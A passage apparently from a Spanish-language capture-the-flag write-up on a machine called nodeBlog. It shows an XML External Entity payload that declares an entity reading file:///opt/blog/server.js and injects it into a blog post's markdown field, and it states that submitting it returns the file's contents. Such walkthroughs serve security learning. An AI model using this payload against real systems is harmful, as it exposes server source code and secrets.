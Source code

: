 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY archivo SYSTEM "file:///opt/blog/server.js"> ]>
<post>
    <title>ola</title>
    <description>descripcion ejemplo</description>
    <markdown>&archivo;</markdown>
</post>
```

El ejecutarlo obtendremos el contenido de ese archivo

![](/assets/img/nodeBlog/9.png)
